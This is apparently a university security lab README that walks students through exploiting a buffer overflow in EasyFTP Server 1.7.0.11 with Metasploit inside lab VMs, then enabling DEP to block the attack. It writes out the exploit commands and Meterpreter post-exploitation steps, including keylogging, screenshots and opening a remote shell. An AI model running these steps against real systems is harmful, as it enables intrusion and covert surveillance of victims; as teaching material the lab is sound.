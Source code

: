# Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM
  - Especially Task 1 in lab01
    - DEP is turned off

## Tasks
On Windows server VM 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](../repo/easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```
   7. Add a user test on EasyFTP

Keep EasyFTP running on Windows VM 🪟.
On Kali Linux VM 🐧, in a command terminal

```bash
#  Make sure you can ftp to EasyFTP from Kali terminal
ftp Windows_VM_IP # as user test
```
2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET "Number_of_target_Windows_Universal - v1.7.0.11"
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
# 2.4.1 find the usage of meterpreter
meterpreter > help
# 2.4.2 get the system information of the victim
meterpreter > sysinfo
# 2.4.3 get an image of the target's desktop
meterpreter > screenshot
# 2.4.4 key logging
# Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
meterpreter > keyscan_start
# Shows the keystrokes captured so far
meterpreter > keyscan_dump	

# 2.4.5 Get a Windows Command Prompt on the target
meterpreter > shell
# Leaves the Windows Command Prompt
C:\Users\Administrator :$ exit
meterpreter > 

# 2.4.6 exit meterpreter
meterpreter > exit
msf >

# 2.4.7 exit metasploit
msf > exit
~ $
```

On Windows server VM 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working" or EasyFTP crashed, then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)
